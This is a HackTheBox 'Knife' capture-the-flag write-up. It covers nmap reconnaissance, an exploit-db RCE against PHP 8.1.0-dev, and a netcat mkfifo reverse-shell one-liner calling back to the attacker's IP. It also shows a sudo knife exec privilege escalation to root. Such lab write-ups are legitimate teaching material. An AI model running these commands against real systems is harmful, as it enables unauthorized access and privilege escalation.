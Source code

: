 ```yaml
---
title: HackTheBox[KNIFE]
author: Anurag M
date: 2021-08-28 14:30:00 +0800
categories: [HackTheBox]
tags: [ hackthebox, sudo, knife, php, gtfobin ]
---
```


![knife](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/knife.png)

In this blog, we are going to discuss about pwning knife from hackthebox.



## About The Machine

| Name | OS | Difficulty | Creator |
|------|----|------------|---------|
| [Knife](https://www.hackthebox.eu/home/machines/profile/347)  | Linux | Easy | [MrKN16H7](https://www.hackthebox.eu/home/users/profile/98767) |

| Blood | User |
|-------|------|
| User | [JKR](https://www.hackthebox.eu/home/users/profile/77141) |
| Root | [JKR](https://www.hackthebox.eu/home/users/profile/77141) |

## Reconnaissance
### Nmap
```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $nmap -A -v 10.10.10.242                                                                           
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the Nmap scan, we can see that 2 ports are open. Port 22 and 80, which are standard SSH, HTTP ports respectively. Port 22 ie, SSH port needs a username and password, we do not have that (assuming brute force is not an option).
Port 80 is for web applications. We can find something interesting in port 80, HTTP methods.
You can read more about OPTIONS method [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS)

Since this is related to HTTP methods, we can use the `curl` command-line program to issue an OPTION request.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $curl -X OPTIONS http://10.10.10.242 -i
HTTP/1.1 200 OK
Date: Mon, 24 May 2021 00:20:43 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```
We have an interesting information for `X-Powered-By`

`X-Powered-By: PHP/8.1.0-dev`

We have an impressive PHP bug, a quick reserch on google, we could find that it is vulnerable to Remote Code Execution. The exploit is availble in [exploit db](https://www.exploit-db.com/).

Download the [Exploit](https://www.exploit-db.com/exploits/49933)

![img](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/exploit.png)

## Gaining foothold

Let's use the exploit. It will ask us for the target URL, as we append the target URL in the exploit, we will get shell as user.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)
```
We do not have a stable shell. Let's take a reliable reverse shell.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 4444 >/tmp/f
```

Start netcat listener on the specified port, we get a reliable reverse shell. Upgrade to a stable shell.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.242] 48310
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("bin/bash")'
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ 
```
we can find the user flag under the directory `/home/james`

```bash
james@knife:~$ pwd
pwd
/home/james
james@knife:~$ ls
ls
user.txt
james@knife:~$ 
```

## Privilege Escalation

Let's move forward, checking sudo rights we can find that user `james` is allowed to run /usr/bin/knife as root.
```bash
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:~$ 
```
Let's see what [gtfobins](https://gtfobins.github.io) have to say about `knife`

![img](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/knife-gtfobin.png)

Let's get the root shell

```bash
james@knife:~$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'                               
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# id
id
uid=0(root) gid=0(root) groups=0(root)
# 
```
Root flag can be found under the directory `/root`

```bash
# cd /root
cd /root
# ls
ls
delete.sh  root.txt  snap
# 
```

## Resources

| Topic | Url |
|-------|-----|
| HTTP OPTION Methods | [Click here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS) |
| Exploit | [Click here](https://www.exploit-db.com/exploits/49933) |
| GTFOBins-knife | [Click here](https://gtfobins.github.io/gtfobins/knife/#sudo) |
